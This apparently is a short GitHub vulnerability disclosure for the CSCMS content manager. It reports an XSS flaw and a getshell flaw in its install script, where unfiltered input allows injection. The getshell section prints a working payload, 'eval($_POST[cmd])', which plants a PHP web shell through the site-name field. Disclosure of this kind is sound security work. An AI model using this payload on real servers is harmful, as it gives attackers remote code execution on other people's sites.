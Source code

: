 # CSCMS_XSS
-----

### Code analysis
Vulnerability code is located `\upload\plugins\sys\Install.php` 103 to 150 lines
![XSS1](https://github.com/AvaterXXX/CScms/blob/master/images/1.png)
You can see that only the null value is judged in the source code, and the input is not filtered, so you can submit the XSS statement.

### Vulnerability display
Insert XSS statement at the site name
![XSS2](https://github.com/AvaterXXX/CScms/blob/master/images/2.png)
Click to complete the installation
![XSS3](https://github.com/AvaterXXX/CScms/blob/master/images/3.png)

# CSCMS_GETSHELL
------
### Code analysis
Vulnerability code is located `\upload\plugins\sys\Install.php` 103 to 150 lines
![XSS1](https://github.com/AvaterXXX/CScms/blob/master/images/1.png)
You can see that only the null value is judged in the source code, and the input is not filtered.
### Vulnerability display
use payload `1');eval($_POST[cmd]);#`
![](https://github.com/AvaterXXX/CScms/blob/master/images/getshell1.png)

getshell!
![](https://github.com/AvaterXXX/CScms/blob/master/images/getshell2.png)




#### Vulnerabilities are owned by Patec HanGuang Lab
#### ` https://www.patec.cn/`
